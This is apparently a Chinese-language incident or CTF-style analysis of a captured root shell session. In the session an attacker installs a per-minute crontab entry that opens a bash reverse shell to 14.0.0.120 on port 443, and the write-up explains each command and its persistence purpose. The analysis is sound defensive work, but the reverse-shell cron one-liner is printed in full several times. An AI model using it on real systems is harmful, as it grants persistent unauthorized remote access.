得到

	whoami

	root

	cd /tmp

	pwd

	/tmp

	echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron

	crontab -i cron

	crontab -l

	* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'

简单分析一下；

**这段命令显示了一个攻击者通过Linux命令行在目标系统上执行的一系列操作，目的是在系统上设置一个定时任务，建立一个反向Shell连接。**

**分析步骤**

1. **whoami**

    * 输出：`root`​
    * 作用：确认当前用户是`root`​，拥有最高权限。
2. **cd /tmp**

    * 作用：切换当前工作目录到`/tmp`​。这个目录通常用于存放临时文件，对所有用户开放写权限，是攻击者常用的目录。
3. **pwd**

    * 输出：`/tmp`​
    * 作用：确认当前工作目录确实是`/tmp`​。
4. _*echo &quot;*  * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" > cron_*

    * 作用：将一个定时任务写入名为`cron`​的文件中。
    * 内容解释：

      * ​`* * * * *`​：表示每分钟执行一次。
      * ​`/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`​：在bash中执行反向Shell连接到IP `14.0.0.120`​的443端口。
5. **crontab -i cron**

    * 作用：将`cron`​文件中的内容安装为当前用户的定时任务（crontab）。
    * 选项：`-i`​通常表示安装或导入。
6. **crontab -l**

    * 输出：`* * * * * /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`​
    * 作用：列出当前用户的所有定时任务，确认任务已成功安装。

**恶意行为分析**

* **反向Shell**：每分钟执行一次，尝试通过目标机器的`/bin/bash`​发起到攻击者机器（`14.0.0.120`​）的443端口的反向Shell连接。
* **保持持久访问**：使用crontab在目标机器上设置定时任务，实现持久化访问，即使Shell被关闭，每分钟仍会尝试重新连接。
* **高权限操作**：攻击者以`root`​权限执行命令，确保对系统有最高控制权。

> 所以从攻击者的行为来看，他们希望在系统上保持持久的控制。通过设置crontab任务，攻击者可以确保即使当前连接断开，他们也能每分钟重新建立一个反向Shell连接。
